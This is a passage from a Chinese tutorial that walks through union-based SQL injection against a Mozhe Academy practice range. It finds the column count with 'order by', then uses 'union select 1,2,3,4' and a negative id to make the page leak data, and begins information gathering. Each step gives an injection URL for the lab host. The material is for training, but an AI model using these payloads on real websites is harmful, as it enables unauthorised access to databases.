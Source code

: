 在网站末尾添加“order by + 数字“ ，寻找返回页面正确与错误的临界值，此值即为列数（字段数）。

###### -实例-

以下实例来自于墨者学院靶场

靶场地址为：[https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe)

```
http://124.70.22.208:46802/new_list.php?id=1 and 1=1 order by 1
返回页面正常
http://124.70.22.208:46802/new_list.php?id=1 and 1=1 order by 2
返回页面正常
http://124.70.22.208:46802/new_list.php?id=1 and 1=1 order by 3
返回页面正常
http://124.70.22.208:46802/new_list.php?id=1 and 1=1 order by 4
返回页面正常
http://124.70.22.208:46802/new_list.php?id=1 and 1=1 order by 5
返回页面不正常

------&gt;列数（字段数）为：4
```

上述五次猜解网页返回的页面如下所示：

## 六、报错猜解准备

在网站末尾添加“ union select + 1~列数 ”。

###### -实例-

```
http://124.70.22.208:46802/new_list.php?id=1 union select 1,2,3,4
```

## 七、报错猜解

将参数修改为错误值，让网页报错。

可以在参数值前加“-”；也可以在参数值位置随便输入一些乱七八糟的内容。

###### -实例-

```
http://124.70.22.208:46802/new_list.php?id=-1 union select 1,2,3,4

http://124.70.22.208:46802/new_list.php?id=1luanqibazaodneirong union select 1,2,3,4
```

## 八、信息收集

根据上一步报错猜解网页返回的数字，对应修改网址，来进行信息收集。

返回的了两个数字，分别是“2”、“3”，因此，修改网址上的“2”、“3”为对应系统函数来进行信息收集。
